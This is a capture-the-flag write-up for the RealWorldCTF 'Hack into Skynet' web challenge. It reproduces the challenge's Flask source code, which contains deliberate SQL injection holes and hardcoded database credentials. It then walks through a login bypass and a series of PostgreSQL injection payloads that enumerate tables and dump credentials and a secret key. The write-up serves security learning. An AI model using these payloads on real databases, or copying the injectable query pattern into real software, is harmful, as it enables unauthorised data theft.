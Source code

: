 ```yaml
---
title: "RealWorldCTF - Hack into Skynet [Web] (81 solves)"
author: "c7c3r0"
description: "Hack into skynet to save the world, which way do you prefer?"
date: 2022-01-23 
---
```


## Description
Hack into skynet to save the world, which way do you prefer?

## Code Review
```python
import flask
import psycopg2
import datetime
import hashlib
from skynet import Skynet #Skynet Code is not provided and is unnecessary in order to complete the challenge

app = flask.Flask(__name__, static_url_path='')
skynet = Skynet()

def skynet_detect(): #Skynet Attack Detection System
    req = {
        'method': flask.request.method,
        'path': flask.request.full_path,
        'host': flask.request.headers.get('host'),
        'content_type': flask.request.headers.get('content-type'),
        'useragent': flask.request.headers.get('user-agent'),
        'referer': flask.request.headers.get('referer'),
        'cookie': flask.request.headers.get('cookie'), #If you can get a sessionId you will gain initial system access
        'body': str(flask.request.get_data()),
    }
    _, result = skynet.classify(req)
    return result and result['attack'] #On trying dangerous actions you are denoted an attacker from the system (403 You are not Permitted to Access this Page)

@app.route('/static/<path:path>')
def static_files(path):
    return flask.send_from_directory('static', path) 

@app.route('/', methods=['GET', 'POST'])
def do_query():
    if skynet_detect():
        return flask.abort(403) #Skynet is being attacked (User is presented with a 403 HTTP Status Code)

    if not query_login_state():
        response = flask.make_response('No login, redirecting', 302) #No Login Redirecting
        response.location = flask.escape('/login')
        return response

    if flask.request.method == 'GET':
        return flask.send_from_directory('', 'index.html') #Show index.html (index.html was never shown in the webpage URL and never used.)
    elif flask.request.method == 'POST':
        kt = query_kill_time()
        if kt:
            result = kt 
        else:
            result = ''
        return flask.render_template('index.html', result=result) #The result of attacking Skynet (Take a look at line #38.)
    else:
        return flask.abort(400) 

@app.route('/login', methods=['GET', 'POST'])
def do_login():
    if skynet_detect():
        return flask.abort(403)

    if flask.request.method == 'GET':
        return flask.send_from_directory('static', 'login.html')
    elif flask.request.method == 'POST':
        if not query_login_attempt():
            return flask.send_from_directory('static', 'login.html')
        else:
            session = create_session()
            response = flask.make_response('Login success', 302) #We needed to bypass the login system 
            response.set_cookie('SessionId', session) #We needed a valid sessionId. Was provided after success login bypass.
            response.location = flask.escape('/')
            return response
    else:
        return flask.abort(400)

def query_login_state():
    sid = flask.request.cookies.get('SessionId', '')
    if not sid:
        return False

    now = datetime.datetime.now()
    with psycopg2.connect(
            host="challenge-db",
            database="ctf", #databse
            user="ctf", #username
            password="ctf") as conn: #password 
        cursor = conn.cursor()
        cursor.execute("SELECT sessionid"
           "  FROM login_session"
           "  WHERE sessionid = %s"
           "    AND valid_since <= %s"
           "    AND valid_until >= %s"
           "", (sid, now, now))
        data = [r for r in cursor.fetchall()]
        return bool(data)

def query_login_attempt():
    username = flask.request.form.get('username', '')
    password = flask.request.form.get('password', '')
    if not username and not password: #username=&password=ctf(login bypass)
        return False

    sql = ("SELECT id, account"
           "  FROM target_credentials"
           "  WHERE password = '{}'").format(hashlib.md5(password.encode()).hexdigest()) 
    user = sql_exec(sql)
    name = user[0][1] if user and user[0] and user[0][1] else ''
    return name == username

def create_session(): #valid sessionId duration
    valid_since = datetime.datetime.now()
    valid_until = datetime.datetime.now() + datetime.timedelta(days=1)
    sessionid = hashlib.md5((str(valid_since)+str(valid_until)+str(datetime.datetime.now())).encode()).hexdigest()

    sql_exec_update(("INSERT INTO login_session (sessionid, valid_since, valid_until)"
           "  VALUES ('{}', '{}', '{}')").format(sessionid, valid_since, valid_until))
    return sessionid

def query_kill_time():
    name = flask.request.form.get('name', '')
    if not name:
        return None

    sql = ("SELECT name, born"
           "  FROM target"
           "  WHERE age > 0"
           "    AND name = '{}'").format(name) ##SQLi AV.This is where magic happens.
    nb = sql_exec(sql) #On a dangerous sql statement, abort operation.
    if not nb:
        return None
    return '{}: {}'.format(*nb[0])

def sql_exec(stmt):
    data = list()
    try:
        with psycopg2.connect(
                host="challenge-db",
                database="ctf",
                user="ctf",
                password="ctf") as conn:
            cursor = conn.cursor()
            cursor.execute(stmt)
            for row in cursor.fetchall():
                data.append([col for col in row])
            cursor.close()
    except Exception as e:
        print(e)
    return data

def sql_exec_update(stmt):
    data = list()
    try:
        with psycopg2.connect(
                host="challenge-db",
                database="ctf",
                user="ctf",
                password="ctf") as conn:
            cursor = conn.cursor()
            cursor.execute(stmt)
            conn.commit()
    except Exception as e:
        print(e)
    return data

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)
```



## Inital Access (Login System Bypass)
![](https://files.bitwarriors.net/images/skynet/forward.PNG)
Bypassing the login system with a vanilla sqli injection was impossible.

Looking the source code, bypassing was made possible only after providing the following from our proxy 
```username=&password=ctf```. 

    
![](https://files.bitwarriors.net/images/skynet/login_bpass.PNG)
## SQL Injection to reveal the flag
Trying vanilla payloads proved unsuccessful because this is a Postgres SQL Database.
```sql
||name||
``` 
    
```sql
'||name LIMIT 3 OFFSET '2
```
    
```sql
SELECT name, born FROM target WHERE age > 0 AND name = ''||name||'' => SELECT name, born FROM target WHERE age > 0 AND name = name
```
```sql
'; select account, password from target_credentials limit 3 offset '0
```
```sql
'; select name, age from target limit 3 offset '0 ---
```
```sql
'; select table_name, null from information_schema.tables limit 3 offset '0
```
```sql
'; select column_name, null from information_schema.columns where table_name='target' limit 3 offset '0
```
```sql
'; select column_name, null from information_schema.columns where table_name='target_credentials' limit 3 offset '4
```

```sql
'; select secret_key, null from target_credentials limit 3 offset '0
```
![](https://files.bitwarriors.net/images/skynet/flag.PNG)
![](https://lh3.googleusercontent.com/Z0LjPO4PZCtU2UBJH-2F_7GJbWR-l9lA7RKhTQzwI411id2hSQvZsZgVfcZdtvLTDOVZQQ2Juue8wGJ6cxERMuU4vySthPcaPqxPSQ=w600)

[challenge](https://files.bitwarriors.net/ctf/RealWorldCTF4/hack_into_skynet_843e0c58997f52e3a65ca9b4c64f2cec.tar.gz)

###### Contributors: `dhmoskfunk` `jimman2003` `un1c0rn`
